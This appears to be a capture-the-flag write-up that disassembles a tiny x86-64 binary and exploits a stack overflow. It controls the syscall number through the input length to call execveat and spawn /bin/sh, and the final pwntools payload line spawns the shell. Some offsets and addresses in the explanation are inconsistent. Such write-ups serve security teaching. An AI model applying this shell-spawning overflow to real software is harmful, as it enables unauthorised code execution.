

# End

There is no `end.c` for us to see, so the only thing we can do is to `objdump` the disassembly code:

    Disassembly of section .text:

    00000000004000b0 <_start>:
      4000b0:	48 31 c0             	xor    %rax,%rax
      4000b3:	48 31 db             	xor    %rbx,%rbx
      4000b6:	48 31 c9             	xor    %rcx,%rcx
      4000b9:	48 31 d2             	xor    %rdx,%rdx
      4000bc:	48 31 ff             	xor    %rdi,%rdi
      4000bf:	48 31 f6             	xor    %rsi,%rsi
      4000c2:	4d 31 c0             	xor    %r8,%r8
      4000c5:	4d 31 c9             	xor    %r9,%r9
      4000c8:	4d 31 d2             	xor    %r10,%r10
      4000cb:	4d 31 db             	xor    %r11,%r11
      4000ce:	4d 31 e4             	xor    %r12,%r12
      4000d1:	4d 31 ed             	xor    %r13,%r13
      4000d4:	4d 31 f6             	xor    %r14,%r14
      4000d7:	4d 31 ff             	xor    %r15,%r15
      4000da:	48 31 ed             	xor    %rbp,%rbp
      4000dd:	e8 10 00 00 00       	callq  4000f2 <_end>
      4000e2:	b8 3c 00 00 00       	mov    $0x3c,%eax
      4000e7:	48 31 ff             	xor    %rdi,%rdi
      4000ea:	48 31 f6             	xor    %rsi,%rsi
      4000ed:	48 31 d2             	xor    %rdx,%rdx
      4000f0:	0f 05                	syscall 

    00000000004000f2 <_end>:
      4000f2:	48 81 ec 28 01 00 00 	sub    $0x128,%rsp
      4000f9:	48 89 e6             	mov    %rsp,%rsi
      4000fc:	ba 48 01 00 00       	mov    $0x148,%edx
      400101:	0f 05                	syscall 
      400103:	48 81 c4 28 01 00 00 	add    $0x128,%rsp
      40010a:	c3                   	retq   
      
 Wow....this problem is a pure assembly code problem.
  
 Everything is `xor`ed in the beginning so, all of them are 0.
  
 After every register is zeroed, it calls `end`.
  
 What `end` does is :
  
    * rsp = rsp - 0x128
    * rsi = rsp - 0x128
    * edx = rdx = 0x148
    * sycall
 
And we can see `rax = 0` and `rdi = 0`, so `end` is a system call for `read()`.
 
    end() = read(0, rsp - 0x128, 0x148)
    
This is definitely a buffer overflow question.
 
However, what can we do? I tried a lot to overflow, such as jumping back to read again, but failed.
 
Then, when staring at `gdb-peda`, I found something interesting:
 
   rax = the length of input string
   
So, I tried to control the length to 59 to call `sys_execve` but still failed, since `/bin/sh\0` is not in rdi.
 
After that, I thought of: Maybe the input size is the key to solving this problem.
 
And.....vola! It is indeed!
 
First 0x128 + 8 = 0x130 and 0x140 is our range of overflow. Converting them into decimal, they and 304 and 336. So, let's take a look at system call table at that range.
 
   
   
This look really alike `execve` so maybe this is it.

After reading the `execveat manual`, I found this:

   
   
So, since what we are entering is `/bin/sh\0` , an abosulute directory, `dfd` is ignored. This means, rdi is ignored and all we have to do is put `/bin/sh\0` in rsi.

Of course, it is easy since rsi is the starting point of the user input. Therefore our payload will begin with `/bin/sh\0` then follow up with a padding of 304 - 17 = 287 bytes. 

    *   NOTE: rdx must be cleared since it is a parameter for `execveat` and in case of error.
    
Seeing the note I wrote, yes, we need to zero out rdx. We can find the method at `0x400ed: xor rdx, rdx` and this will be our return address.

Finally, our payload will be:

```python
   p.sendline(b"/bin//sh\x00" + b"\x90"*287 + p64(0x4000ed) + b"\x90"*17)
```
